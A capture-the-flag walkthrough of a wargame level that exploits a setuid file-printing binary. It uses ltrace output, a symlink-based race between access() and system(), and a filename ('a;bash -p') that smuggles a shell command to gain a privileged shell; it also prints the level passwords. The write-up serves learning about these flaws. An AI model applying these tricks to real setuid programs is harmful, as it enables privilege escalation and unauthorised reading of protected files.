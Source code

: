 ### Leviathan level 2

There is a set-user-ID executable named 'printfile' in home directory. Running it I get: 

```bash
*** File Printer ***
Usage: ./printfile filename
```

- running `ltrace ./printfile /etc/leviathan_pass/leviathan3` I get:

```bash
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)          = -1
puts("You cant have that file..."You cant have that file...
)                   = 27
+++ exited (status 1) +++
```

- running `ltrace ./printfile /etc/leviathan_pass/leviathan2` I get:

```bash
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)          = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
geteuid()                                            = 12002
geteuid()                                            = 12002
setreuid(12002, 12002)                               = 0
system("/bin/cat /etc/leviathan_pass/lev"...NsN1HwFoyN
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                               = 0
+++ exited (status 0) +++ "
```

So I see that the setuid printfile executable uses access() function to check if it has read permission to the given file (NOTE: access uses real uid when checking for permissions). If access() is successfule it created the str "/bin/cat {filename}" with the specified filename and calls system() on it. 

After some searching I found something called Time-of-Check to Time-of-Use vulnerability that can be exploited here. The executable uses access() to check permissions and then uses system() to cat the contents of the file. But between the two calls the file could have potentially been changed. I will try to use that fact.

#### Solution
- I create a temporary directory using 
`mkdir /tmp/leviathan2 && cd /tmp/leviathan2` . In here I create 3 files named a, b and "a b".  

- I create a symbolic link from b to '/etc/leviathan_pass/leviathan3' using `ln -sf /etc/leviathan_pass/leviathan3 b`.

- I run `/home/leviathan2/printfile "a b"` and I get the contents of /etc/leviathan_pass/leviathan3

That is because access() checks for read permissions on "a b" file which I created, but ```system(/bin/cat a b)``` will cat the contents of a and then the contents of b file, which is a symbolic link to the desired passwd. And because this is a set-uid binary we can get the desired passswd. 

#### Alternative solution

After implementing that I found a shorter and a bit smarter solution.

- Like before I can create a file named "a;bash -p" and a file named "a".
- After running `printfile "a;bash -p"` I get a new bash, and running `whoami` I see that I am now `leviathan3` and I can just cat the contents of the password.

This happens because when running `bash -p` prevents the binary from dropping the permissions. From the docs :

```bash
-p

Turn on privileged mode. In this mode, the $ENV and $BASH_ENV files are not processed, shell functions are not inherited from the environment, and the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored. If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, these actions are taken and the effective user id is set to the real user id. If the -p option is supplied at startup, the effective user id is not reset. Turning this option off causes the effective user and group ids to be set to the real user and group ids. 
```

passwd for level 3: f0n8h2iWLP
